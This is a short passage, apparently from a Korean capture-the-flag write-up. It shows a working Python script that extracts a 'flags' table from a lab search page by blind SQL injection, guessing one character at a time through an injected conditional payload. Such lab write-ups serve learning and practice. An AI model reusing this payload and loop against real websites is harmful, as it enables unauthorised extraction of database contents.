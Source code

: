 ![파이썬 활용 데이터베이스 추출](/assets/web-screenshots/blind-error-based-sqli/python_database.png)

이 파이썬 코드로 추출을 진행 하였다.

```python
import requests

result_data = []

for j in range(0, 5):
    result = ""
    print(f"Row: {j + 1}")

    for i in range(1, 30):
        found = False
        for ascii in range(32, 127):
            payload = (f"33333%' Or if(ascii(substr((select flag from flags limit {j},1),{i},1))={ascii},1,0) and '1%'='1")
            r = requests.get("http://ctf.segfaulthub.com:2984/spec5/search.php", params={"q": payload})

            if len(r.text) > 1000: 
                result += chr(ascii) 
                print(f"[{i}] {chr(ascii)} → Current Progress: {result}")
                found = True
                break

        if not found:
            print("End")
            break

    result_data.append(result)

for idx, name in enumerate(result_data, 1):
    print(f"{idx}. {name}")
```
